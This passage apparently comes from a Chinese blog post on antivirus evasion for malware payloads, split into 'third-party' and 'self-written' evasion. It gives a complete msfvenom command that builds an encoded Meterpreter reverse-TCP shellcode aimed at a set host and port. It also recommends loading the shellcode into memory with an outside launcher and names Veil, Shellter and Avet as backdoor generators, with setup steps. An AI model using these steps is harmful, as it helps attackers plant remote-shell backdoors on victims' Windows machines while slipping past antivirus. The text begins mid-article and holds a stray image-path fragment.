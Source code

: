 所以，当我们在编写免杀的恶意软件和解密shellcode模块时，一定要避免上面这些坑。

# 0x02 payload免杀

分离免杀主要分两大类，一类为第三方分离免杀，一类为自带安装分离免杀。文章中，采取了**第三方分离免杀**。

目前的反病毒安全软件，常见有三种，**一种基于特征，一种基于行为，一种基于云查杀**。云查杀的特点基本也可以概括为特征查杀。无论是哪种，都是特别针对PE头文件的查杀。尤其是当payload文件越大的时候，特征越容易查杀。

既然知道了目前的主流查杀方式，那么反制查杀，此篇采取**特征与行为分离免杀**。避免PE头文件，并且分离行为，与特征的综合免杀。适用于菜刀下等场景，也是我在基于windows下为了更稳定的一种常用手法。载入内存。

**1.第三方分离免杀**

payload不采取生成pe文件，而采取shellcode方式，来借助第三方直接加载到内存中。避免行为：

```
msfvenom -pwindows/x64/meterpreter/reverse_tcp lhost=192.168.1.5 lport=8080 -ex86/shikata_ga_nai -i 5 -f raw > test.c
```

shellcode方式的payload，那么需要借助第三方来启动，加载到内存。

[https://github.com/clinicallyinane/shellcode_launcher/](https://github.com/clinicallyinane/shellcode_launcher/)

**①. veil**

Veil是一种可以生成带有Metasploit载荷的后门工具，可以绕过部分杀软的防御，软件本身一直在更新。

**②. Shellter**

Shellter采用了动态Shellcode注入来实现免杀的效果，当用户打开被植入后门的软件时，只有触发一定的操作才会启动后门。

**③. Avet**

git clone https://github.com/govolution/avet

安装完毕后，找到自己想要生成的后门载荷，切到/avet/build/目录下打开相应的.sh文件对LHOST和LPORT进行修改。



**2.自带安装分离免杀**

就是自己写的免杀



参考：

[http://www.4hou.com/technology/3853.html](http://www.4hou.com/technology/3853.html)

[https://www.secpulse.com/archives/94028.html](https://www.secpulse.com/archives/94028.html)